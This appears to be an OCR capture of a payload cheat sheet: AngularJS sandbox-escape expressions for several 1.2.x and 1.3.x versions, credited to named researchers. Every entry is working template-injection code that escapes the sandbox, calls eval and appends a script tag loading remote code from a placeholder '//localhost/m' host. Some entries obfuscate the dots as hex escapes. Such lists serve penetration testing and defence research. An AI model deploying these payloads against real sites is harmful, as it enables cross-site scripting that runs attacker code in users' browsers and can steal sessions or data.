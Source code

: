   
---
1.2.19 (FireFox) by Mathias Karlsson

```javascript

{{

toString.constructor.prototype.toString=toString.constructor.prototype.call;

["a",'eval("var _ = document.createElement(\'script\');

_.src=\'//localhost/m\';

document.getElementsByTagName(\'body\')[0].appendChild(_)")'].sort(toString.constructor);

}}

```

  
---
1.2.20 - 1.2.29 by Gareth Heyes (PortSwigger)

```javascript

{{

a="a"["constructor"].prototype;a.charAt=a.trim;

$eval('a",eval(`

var _=document\\x2ecreateElement(\'script\');

_\\x2esrc=\'//localhost/m\';

document\\x2ebody\\x2eappendChild(_);`),"')

}}

```

  
---
1.3.0 - 1.3.9 by Gareth Heyes (PortSwigger)

```javascript

{{

a=toString().constructor.prototype;a.charAt=a.trim;

$eval('a,eval(`

var _=document\\x2ecreateElement(\'script\');

_\\x2esrc=\'//localhost/m\';

document\\x2ebody\\x2eappendChild(_);`),a')

}}

```
